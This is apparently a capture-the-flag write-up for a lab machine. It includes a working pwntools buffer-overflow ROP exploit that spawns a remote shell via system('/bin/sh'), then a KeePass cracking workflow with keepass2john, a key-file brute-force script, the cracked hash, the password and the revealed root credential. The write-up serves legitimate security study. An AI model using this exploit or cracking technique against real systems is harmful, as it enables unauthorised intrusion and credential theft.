

# USER

Looking at the page source we can seen the message

```html
<!-- 'myapp' can be downloaded to analyze from here
     its running on port 1337 -->
```

The binary is a `64-bit` application. Therefore, consideration needs to be made for the exploit.

Instead of passing arguments on the stack like a `32-bit` application, `64-bit` applications use registers in the 
order listed below: 
```
+---------+------+------+------+------+------+------+
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+------+------+------+------+------+
|   %rax  | %rdi | %rsi | %rdx | %r10 | %r8  | %r9  |
+---------+------+------+------+------+------+------+
```

### Working exploit

The original call to `system` loads the value of `/usr/bin/uptime` into `rdi`.

In the method `test()` has some interesting gadgets:

```
   0x0000000000401152 <+0>:	push   rbp
   0x0000000000401153 <+1>:	mov    rbp,rsp
   0x0000000000401156 <+4>:	mov    rdi,rsp
   0x0000000000401159 <+7>:	jmp    r13
```

The first two instructions are generic instructions to setup the stack. The one we need is the `mov rdi, rsp`, this can let us load `/bin/sh` into the first instruction register. This will work because `$rsp` will point to the top of the stack. This is where we will place `/bin/sh\x00`.

However, we are followed by a `jmp 13`, this means we need to place the address of `system` into this address to complete the payload. We can achieve this with the gadget `pop r13 ; pop r14 ; pop r15 ; ret`.

Below is our completed exploit:

```python
from pwn import *
import struct
import sys
import re

BINARY = './myapp'
BUFFER_LEN = 120

# io = process(BINARY)
io = remote("10.10.10.147", 1337)
# io = gdb.debug('./myapp', 'b *main+77') # ret of main()

# Gadgets
pop_r13 = p64(0x401206)  # pop r13 ; pop r14 ; pop r15 ; ret
mov_rdi = p64(0x401156)  # mov rdi, rsp

# Addresses
system  = p64(0x40116e)
main    = p64(0x40115f)  # debug

# Data
bin_sh  = b"/bin/sh\x00"

payload =  b""
payload += b"A" * BUFFER_LEN

# pop r13 ; pop r14 ; pop r15 ; ret
payload += pop_r13
payload += system       # r13
payload += b"BBBBBBBB"  # r14
payload += b"BBBBBBBB"  # r15

# mov rdi, rsp
payload += mov_rdi
payload += bin_sh       # /bin/sh\x00

io.sendline(payload)
io.interactive()
```

Note the line:

```python
io = gdb.debug('./myapp', 'b *main+77') # ret of main()
```

Loads the program into `gdb` allows for debugging the `pwn-tools` exploit.

This lets us spawn a shell on the box and grab the `user.txt`!

# ROOT

The root directory contains a Keypass (`kdbx`) and six images.

Using `keypass2john` from the Jumbo version of John The Ripper we can convert the database to a hash that can be cracked.

After trying for a small amount of time with a basic hash (With no key file) I began trying to use the images as key files. Key files work as an extra layer of security and can be any file. In this case the key file is one of the images.

The hash files were generated with the batch file below:

```sh
files=(
	"IMG_0545.JPG"  
	"IMG_0546.JPG"  
	"IMG_0547.JPG"  
	"IMG_0548.JPG"  
	"IMG_0552.JPG"  
	"IMG_0553.JPG"
      )

for i in ${files[@]}; do
	keepass2john -k $i ./MyPasswords.kdbx > ./hash/$i-hash.txt
done
```

With some trial and error it was found that `IMG_0547.JPG` is the key file. This can be used to create a hash with `keypass2john`.

```
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*e949722c426b3604b5f2c9c2068c46540a5a2a1c557e66766bab5881f36d93c7
```

This when cracked gives us the password `bullshit`.

```
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

bullshit         (MyPasswords)
1g 0:00:00:02 DONE (2019-12-06 11:27) 0.3448g/s 355.8p/s 355.8c/s 355.8C/s mariel..samson
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

This can be used within `Keypass` to grab the root password:

```
root:u3v2249dl9ptv465cogl3cnpo3fyhk
```